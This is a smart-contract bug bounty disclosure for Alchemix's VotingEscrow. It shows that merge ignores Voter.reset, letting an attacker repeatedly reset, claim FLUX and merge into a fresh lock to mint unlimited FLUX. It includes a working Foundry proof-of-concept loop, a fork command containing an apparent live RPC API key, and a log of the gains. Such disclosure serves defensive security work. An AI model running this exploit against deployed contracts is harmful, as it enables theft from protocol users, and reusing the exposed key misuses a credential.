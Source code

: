 
# `VotingEscrow.merge` does not check whether the `_from` $veToken has voted causing it can be exploited to receive $FLUX unlimitedly

Submitted on Tue May 14 2024 14:31:50 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31198

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

The `VotingEscrow.merge` interface can merge two $veToken. It checks `voted[_from]` to ensure that `_from` $veToken has not voted in the current epoch. However, this check is not comprehensive enough because the user can call `Voter.reset` to claim $FLUX without setting `voted[_from]` to `true`.

## Vulnerability Details

Please see the following code. Users can call `Voter.reset` to receive $FLUX. This interface will call `VotingEscrow.abstain` to set `voted[_tokenId]` to `false`. Moreover, the `onlyNewEpoch` modifier limits each `_tokenId` to only call the interface once per epoch. Next we use `VotingEscrow.merge` to bypass this limit.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
```

Please look at the following code. The `VotingEscrow.merge` interface can merge two $veToken into one. It only checks `voted[_from]` but not `voter.lastVoted(_from)`. In other words, we first call `Voter.reset(_from)` and then merge `_from` $veToken into another $veToken to continue receiving $FLUX.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L622
    function merge(uint256 _from, uint256 _to) external {
        require(!voted[_from], "voting in progress for token");
        require(_from != _to, "must be different tokens");
        require(_isApprovedOrOwner(msg.sender, _from), "not approved or owner");
        require(_isApprovedOrOwner(msg.sender, _to), "not approved or owner");
```

This is a brief description of the attack. Please see the PoC code for details.

1. The attacker owns $veTokenA and calls `Voter.reset` on $veTokenA. The attacker will receive $FLUX once
2. The attacker creates a new $veTokenTemp worth `1` wei of $BPT. `1` wei $BPT cost is `~0`
3. The attacker merges $veTokenA into $veTokenTemp
4. Now treat $veTokenTemp as $veTokenA and go back to the step1

Repeat the above steps to receive unlimited $FLUX

**Suggested fix**

Check whether the `_from` $veToken has voted

```diff
    function merge(uint256 _from, uint256 _to) external {
+       require((block.timestamp / DURATION) * DURATION > IVoter(voter).lastVoted(_from));
        require(!voted[_from], "voting in progress for token");
        require(_from != _to, "must be different tokens");
        require(_isApprovedOrOwner(msg.sender, _from), "not approved or owner");
        require(_isApprovedOrOwner(msg.sender, _to), "not approved or owner");
```

## Impact Details

Attackers can receive unlimited $FLUX unlimitedly

## References

None
        
## Proof of concept
## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/VotingEscrow.t.sol b/src/test/VotingEscrow.t.sol
index 6e828a3..cfb35e6 100644
--- a/src/test/VotingEscrow.t.sol
+++ b/src/test/VotingEscrow.t.sol
@@ -1015,4 +1015,43 @@ contract VotingEscrowTest is BaseTest {
 
         hevm.stopPrank();
     }
+
+    function testYttriumzzPocTemp() public {
+        hevm.startPrank(admin);
+
+        uint256 tokenId = veALCX.createLock(1e18, 0, true);
+
+        console.log(">>>>> before steal");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        for (uint256 i = 0; i < 50; i++) {
+            voter.reset(tokenId);
+            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId, tokenIdTemp);
+            tokenId = tokenIdTemp;
+        }
+        
+        console.log(">>>>> after steal 50 times");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        for (uint256 i = 0; i < 100; i++) {
+            voter.reset(tokenId);
+            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId, tokenIdTemp);
+            tokenId = tokenIdTemp;
+        }
+        
+        console.log(">>>>> after steal 150 times");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testYttriumzzPocTemp() (gas: 114711590)
Logs:
  >>>>> before steal
  >> IERC20(bpt).balanceOf(admin): 99999999000000000000000000
  >> flux.balanceOf(admin): 0
  
  >>>>> after steal 50 times
  >> IERC20(bpt).balanceOf(admin): 99999998999999999999999950
  >> flux.balanceOf(admin): 49862958206078108850
  
  >>>>> after steal 150 times
  >> IERC20(bpt).balanceOf(admin): 99999998999999999999999850
  >> flux.balanceOf(admin): 149588874618234326550
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 417.75ms (402.92ms CPU time)

Ran 1 test suite in 1.73s (417.75ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

